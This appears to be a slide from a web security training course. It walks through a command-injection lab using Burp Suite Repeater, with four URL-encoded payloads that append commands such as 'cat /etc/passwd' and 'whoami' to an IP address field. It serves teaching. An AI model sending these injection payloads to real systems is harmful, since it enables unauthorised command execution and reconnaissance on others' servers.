

# Command Injection Review
Enable Foxy Proxy, launch Burp Suite, and intercept a request through the IP address form.
Send the request to Repeater. Update the IP address to use the same payloads you delivered previously.

ip=8.8.4.4;%20cat%20/etc/passwd&Submit=submit
ip=8.8.4.4;%20whoami&Submit=submit
ip=8.8.4.4;%20uname&Submit=submit
ip=8.8.4.4;%20ps%20aux&Submit=submit